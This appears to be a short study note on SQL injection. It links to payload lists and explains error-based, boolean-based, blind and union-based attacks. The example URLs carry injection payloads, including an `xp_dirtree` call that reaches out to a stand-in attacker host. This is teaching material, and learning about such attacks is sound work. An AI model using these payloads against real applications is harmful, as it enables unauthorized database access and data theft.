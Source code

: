 # Resources
https://sqlwiki.netspi.com/#mysql
[SQL Injection Payload List - PayloadBox](https://github.com/payloadbox/sql-injection-payload-list) - Payloads

# Basics

>[!INFO] What is a SQL Injection ?
SQL Injection (SQLi) is a type of an **injection attack** that makes it possible to execute malicious SQL statements. These statements control a database server behind a web application. Attackers can use SQL Injection vulnerabilities to bypass application security measures.

## Types

### Error based

Forcing the database to perform some operation in which the result will be an **error**. Then try to extract some data from the database and show it in the error message.

#### Example

```
https://www.example.beaglesecurity.com/gallery.php?id=6'
```

### Boolean based

Relies on sending an SQL query to the database which forces the application to return a different result depending on whether the query returns a **TRUE** or **FALSE** result.

#### Example

```
https://www.example.beaglesecurity.com/gallery.php?id=6' AND 1=1 --+
```

### Blind-based

Sending **payloads**, observing the web application’s response and the resulting behavior of the database server. **Check payloads**.

#### Example

```
https://example.com/products.aspx?id=1;EXEC master..xp_dirtree '\\test.attacker.com\' --
```

### Union based

UNION-based attacks allow the tester to easily **extract information from the database**. Because the UNION operator can only be used if both queries have the exact same structure, the attacker must craft a SELECT statement similar to the original query.
